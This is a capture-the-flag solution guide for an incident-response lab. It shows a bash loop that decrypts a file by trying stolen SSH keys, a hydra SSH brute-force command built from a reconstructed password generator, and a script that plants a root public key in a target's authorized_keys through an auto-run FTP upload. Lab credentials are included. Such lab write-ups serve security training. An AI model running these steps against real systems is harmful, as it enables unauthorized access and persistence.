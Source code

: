 
# Where did I put my keys?

_Solution Guide_

## Overview 

This challenge is an incident response challenge, in which competitors must regain access to a compromised system. It involves writing various scripts to create a wordlist and retrieve SSH keys.


## Question 1

Which user's key was used to encrypt the script?

1. Log into `kali-workstation` wait about 2 minutes for startup scripts to complete.

2. The FTP server is accessible by `ftp ftp-server.us` with the credentials `user:tartans`.

3. Files will be found within the `files` directory: `encrypted.enc`, `rsa_key.enc`, `wordlist.txt` and a directory called `keys` containing all of the SSH keys for each employee (150 directories each containing `id_rsa` and `id_rsa.pub` files).

4. Open a new terminal and download all of the files from the directory using a command such as `wget -r -m ftp://user:tartans@ftp-server.us`. This will create a directory called `ftp-server.us` containing all of these files.

5. Since we don't know which user's key pair was used to generate the encryption, a script will be needed to try the decryption for every user. Create this script in the /home/user directory.

    ``` bash
    #!/bin/bash

    for user in ftp-server.us/files/keys/*
    do
        chmod 600 $user/id_rsa
        ssh-keygen -p -m PEM -N "" -f $user/id_rsa
        openssl rsautl -decrypt -oaep -inkey $user/id_rsa -in ftp-server.us/files/rsa_key.enc -out rsa_key.keygen
        openssl aes-256-cbc -d -in ftp-server.us/files/encrypted.enc -out $user.py -pass file:rsa_key.keygen

    done
    ```

6. Running this script (permissions may need to be changed with `sudo chmod +x script.sh`) will create a script called `user##.py` within `/home/user/ftp-server.us/files/keys/` that contains the code the attacker used to generate the password. `This user is the answer to Question 1.`

## Question 2

What is the token found on the ftp server?

1. Looking at the code, it can be seen that the password was generated using the provided wordlist.
    - Each word in the list was sorted by the sum of each letter's unicode value minus the time the script was execulted (August 16th as indicated by the challenge background)
    - Two words were then appended together based on the index of the word and the unicode value of the first letter of the word to create a sublist of 500 words
    - One of these 500 words was then chosen as the password
<br><br>

2. Since the script was encrypted and downloaded, the original metadata has been overwritten so the script will not run properly as is.

3. Therefore, we will have to comment out the part of the script where the variable `sort_val` was generated (`lines 14-18`) and manually change the `sort_val` to when the script was thought to have been run originally: `August 16th` or `816`

4. Then, since only one password was chosen at random, we will instead need to store the entire sublist by changing the last line to <br>`open("/home/user/passwd_gen", "w").write("\n".join(choices))`

5. The final edited script should look something like this

    ``` python
    import os, time, datetime, random

    def ord_sum(word):
        ord_val = 0
        for letter in word:
            ord_val += ord(letter)

        return ord_val

    choices = []

    #path = r"/home/user/genNewPass.py"

    #date = datetime.datetime.strptime(time.ctime(os.path.getmtime(path)), "%a %b %d %H:%M:%S %Y")

    #sort_val = int(str(date.month)+str(date.day))

    sort_val = 816

    words = open("/home/user/wordlist.txt", "r").read().splitlines()

    words.sort(key=lambda x: abs(ord_sum(x) - sort_val))

    for i in range(1, 501):
        choices.append(words[i] + words[ord(words[i][0])*(i//10)])

    open("/home/user/passwd_gen", "w").write("\n".join(choices))
    ```

6. Before executing the script, the permissions may need to be changed using `sudo chmod +x user##.py`. Also, move `/home/user/ftp-server.us/files/wordlist.txt` to the `/home/user/` directory.

7. Once the wordlist is generated, use a program such as `hydra` to try and brute force into `10.5.5.101` with each password <br>
`hydra -l user -P /home/user/passwd_gen 10.5.5.101 ssh`.

8. Once hydra finds the password, log into `10.5.5.101` with the found password.

9. On the desktop, you will be able to find the credentials for the `remote-user` on the FTP server (`remote-user:d0nTm4kEy0Urp45sW0rdPAs5woRd`). After logging into this user and navigating to the `files` directory, you will see a README that will contain the second `token`.


## Question 3

What is the token found on 10.5.5.128?

1. Any bash or python files uploaded to the `files` directory of this user will be automatically run. Keep in mind that the FTP server has SSH access to the final target machine.

2. When attempting to log into the final target machine, we will find that port 22 is no longer being used for SSH access for security reasons. To find the correct port, run: `nmap -p- 10.5.5.128`. Be sure to keep track of that port.

3. Attempting to log into the final target machine with the correct port will now yield a `Permission denied (publickey)` error, and since we know that the final machine only accepts SSH access via a `root` account, we will need to find a way to upload the public key of a `root` account to the final machine.

4. First we need to get the key found in the `ssh-access` machine's `root` .ssh folder.

5. From the `/root/.ssh` directory, copy either key to the user directory with `cp id_rsa.pub /home/user/` and upload it to the ftp server by logging in with
    - `ftp ftp-server.us` and the credentials `remote-user:d0nTm4kEy0Urp45sW0rdPAs5woRd`
    - `cd files`
    - `put id_rsa.pub`

6. We can now write a script to append that key to the final machine's `authorized_keys` folder, which can be run by uploading to the `remote-user`'s FTP directory.

7. One possible solution is to write a script like
    ``` bash
    #!/bin/bash

    sudo scp -P [ENTER PORT] /home/remote-user/ftp/files/id_rsa.pub root@10.5.5.128:/tmp/id_user
    sudo ssh -p [ENTER PORT] root@10.5.5.128 'cat /tmp/id_user >> /root/.ssh/authorized_keys'
    ```

    which will copy the key from the remote-user's directory into a tmp file in the target machine, then append that key into the machine's `authorized_keys` file.

8. Uploading the script, using the same method as the key upload in `step 20`, will allow access from the `root` account.

9. `sudo su` into the root account, then `ssh -p [ENTER PORT] root@10.5.5.128` and navigate to the Desktop. `cat` out the `token.txt` file to receive the final token.
